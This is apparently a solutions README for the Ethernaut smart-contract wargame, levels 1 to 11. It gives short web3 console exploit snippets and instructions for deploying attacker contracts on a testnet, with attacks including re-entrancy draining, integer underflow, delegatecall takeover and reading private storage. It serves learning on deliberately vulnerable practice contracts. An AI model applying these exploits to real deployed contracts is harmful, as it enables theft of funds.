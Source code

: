 # Ethernaut - Solutions

## 1. Fallback

```
await contract.contribute({ value: toWei("0.0001") });
await contract.sendTransaction({ value: toWei("0.0001") });
await contract.withdraw();
```


## 2. Fallout

```
await contract.Fal1out({ value: toWei("0.0001") });
await contract.collectAllocations();
```


## 3. Coin Flip

Compile [CoinFlipAttack.sol](./solutions/CoinFlipAttack.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Do not forget to specify the level `instance` address when deploying the attacker contract (constructor).  
Afterwards, just call the `callFlipWithCorrectGuess()` function 10 times.


## 4. Telephone

Compile [TelephoneProxy.sol](./solutions/TelephoneProxy.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `giveMeTelephoneOwnership(address _telephoneContract)` function with the level `instance` address as first argument.

## 5. Token

```
const balance = Number(await contract.balanceOf(player));
await contract.transfer(level /* can be any address except own */, balance + 1 /* create underflow in contract */);
```

## 6. Delegation

See solidity function [delegatecall](https://solidity-by-example.org/delegatecall/).
```
await contract.sendTransaction({ data: web3.eth.abi.encodeFunctionSignature("pwn()") });
```

## 7. Force

See solidity function [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/).  
Compile [ForcePay.sol](./solutions/ForcePay.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH.
Afterwards, just call the `destroyAndLeaveBalanceAt(address _contract)` function with the level `instance` address as first argument.

## 8. Vault

```
const password = await web3.eth.getStorageAt(instance, 1); // get storage variable at index 1 of contract (although it's private!)
await contract.unlock(password);
```

## 9. King

Compile [King4Ever.sol](./solutions/King4Ever.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH and the level `instance` address as argument (constructor).
The fallback function of this contract is going to revert any subsequent transaction which is trying to claim the throne.

## 10. Re-entrancy

Compile [ReentranceAttack.sol](./solutions/ReentranceAttack.sol) and deploy it to the Rinkeby testnet with e.g. 0.0001 ETH and the level `instance` address as argument (constructor).
Afterwards, just call the `drainVictim()` function to steal all funds from the level contract. Once this is done, do not forget to call the `withdraw()` function to get the funds back to your wallet.

## 11. Elevator

Compile [Building.sol](./solutions/Building.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `goToTop(address _elevatorContract)` function with the level `instance` address as first argument.

